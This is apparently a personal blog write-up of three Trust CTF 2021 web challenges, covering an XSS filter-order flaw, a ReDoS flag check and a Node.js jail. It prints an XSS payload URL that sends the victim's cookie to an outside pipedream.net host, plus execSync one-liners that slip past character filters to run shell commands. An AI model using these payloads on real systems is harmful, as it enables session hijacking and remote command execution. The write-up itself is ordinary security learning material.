 ```yaml
---
layout: post
title: "Trust CTF 2021 Write Up"
description: This article is about write-up for the Trust CTF 2021 . there is only three web challenges, which contain ReDos, XSS, nodejail bug
date: 2021-02-28 23:29:53
imgurl: https://scontent-ssn1-1.xx.fbcdn.net/v/t39.30808-6/309257167_463341879154482_1135259260056369902_n.jpg?_nc_cat=111&ccb=1-7&_nc_sid=09cbfe&_nc_ohc=Di_0kEnXS2gAX_FRX6A&_nc_ht=scontent-ssn1-1.xx&oh=00_AfBoMZDTKaZfxk7gnEN9xDgtIHUzy8lIywsnvbnvyPxYVQ&oe=637C3594 
excerpt: Today, Dimigo’s team called Trust hosted the CTF. I couldn’t participate in the morning because I had personal work to do, and I did a little bit in the afternoon.
---
```

# (Web) babyxss [270 pts]
The babyxss challenge is a simple XSS challenge disguised as DOMPurify Bypass.

```php
<?php
require_once("secrets.php");
# This Challenge using newest version DomPurify..! Maybe unexploitable!!

if(isset($_GET['name'])) {
    header("content-security-policy: base-uri 'self'; block-all-mixed-content; connect-src 'self';");
    header('X-Frame-Options: DENY');
    echo "<h1 id='name'>Hello </h1>";
    echo '<script src="https://code.jquery.com/jquery-3.5.1.min.js"integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>';
    echo "<script type='text/javascript' src='https://cure53.de/purify.js'></script><script>var name='". base64_encode($_GET['name']) ."';document.getElementById('name').innerHTML += DOMPurify.sanitize($('<p>').html(atob(name)).text())</script>";
}

show_source(__FILE__);
```
When accessing the challenge, the code above appears. CSP is also set, and below, DOMPurify is used to respond to XSS. So I just inserted something DOMPurify Bypass Payload and it was triggered, so I hijacked the cookie and got the flag.

But the reason it was triggered wasn’t because it bypassed DOMPurify. Since DOMPurify is using the latest version, it was impossible to bypass it.

```javascript
$('<p>').html(atob(name)).text()
```
However, you can see that the above code is passed as an argument to the sanitize() method. It goes into the DOM for a while right there, and that’s when XSS is triggered. So you can trigger an XSS using a normal payload.

```
https://xss.trustctf.xyz/?name=%3Csvg%3E%3C/p%3E%3Cstyle%3E%3Ca%20id=%22%3C/style%3E%3Cimg%20src=1%20onerror=location.href=%27https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?f=%27.concat(document.cookie)%3E%22%3E
```
```plaintext
FLAG : TRUST{cf909172b91c8bf3f70c0e71f2809f36}
```

---
# (Web) FLAG Checker [1000 pts]

The FLAG Checker challenge is a simple ReDos challenge. I just studied the theory and tried it for the first time, but it seems to be just a strange technique.

```php
Wrong.... <?php
    include "./secret.php";
    $result = preg_match("/{$_GET['flag']}/", $flag);
    if ($flag === $_GET['answer'] && $result === 1) {
        echo $flag;
    }
    else {
        echo "Wrong....";
    }

    highlight_file(__FILE__);
?>
```
When I approach the problem, it comes up as above. I saw this problem a while ago, so I immediately thought of ReDos, and a flag came out when I abused it with that technique. I will not upload the code separately because a problem similar to that problem will be uploaded to webhacking.kr later.

```plaintext
FLAG : TRUST{2ef0c0b759425eed6d3932c109e0fe74}
```

---
# (Web) nodejail (Not Solve) [400 pts]
The nodejail challenge is a simple RCE challenge.

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/jail.png?raw=true)

When I approach the problem, I just see an input window. By entering the Javascript code, I was able to confirm that various characters were filtered.

```javascript
require(`child_process`).execSync(`c?t${IFS}~~`).toString()
```
At the time of the competition, as above, ${IFS} was used to bypass the space. However, no matter how I tried as above, nothing happened to return only err, so I just gave up.

```javascript
require(`fs`).readdirSync(`./`)
```
After the competition, when I asked Seungju, I was able to receive a code for searching for a directory using the fs module. When I saw the code above, I was so shocked. He thought he could only read and write files using the fs module, but it turned out to be the first time he knew that directories could be traversed.

```javascript
require(`child_process`).execSync(`\x63at\x20T\x2a`).toString()
```
And the second time, I was curious about how Kyung-jun solved it, so when I asked him, he saw that he bypassed the space using hexadecimal numbers as above, and it was absurd..

```plaintext
FLAG : TRUST{th1s_1s_3xtrem3_n0d3_j41l}
```